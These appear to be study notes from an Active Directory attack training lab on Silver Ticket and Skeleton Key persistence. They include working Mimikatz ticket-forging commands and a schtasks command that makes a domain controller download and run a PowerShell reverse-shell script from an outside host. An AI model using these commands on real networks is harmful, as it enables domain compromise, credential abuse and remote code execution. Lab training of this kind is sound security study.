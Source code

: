 
<center><h1>Abuse 2: Silver Ticket</h1></center>

***If you are not able to dump the hash of krbtgt user then you can use this attack.***

If you can extract NTLM hash of a service account then access the service using any user including high privilege user

> If you have service account NTLM hash

```bash
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063- 538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:cifs /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'



# Using service as HOST SPN

Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063- 538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```

> Similar command can ve used for any other service ex: HOST, RPCSS, WSMAN and many more.
> HOST SPN allows us to schedule and execute a task 

Creating a task:
```bash
# Creating task
schtasks /create /S domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowershellTcp.ps1''')'"

# Executing task
schtasks /Run /S domain.local /TN "STCheck"
```

> - Try to get command execution on the DC by creating silver ticket for:
> 	- HOST service
> 	- WMI




![[2022-03-25 22_25_24-10-DomainPersistence-Part2.mp4 - VLC media player.png]]





<center><h1>Abuse 3: Skeleton Key</h1></center>

- Skeleton key is a persistence technique where it is possible to path Domain Controller (LSASS process) so that it allows access as any user with a single password.
- Performed by mimikatz which is done by injecting peice of malware into LSASS.

**REQUIREMENTS:**
- ***Attacker must have Domain Admin Rights***
- Attack must be performed on each and every DC for complete compromise
- Rebooting DC will remove this malware
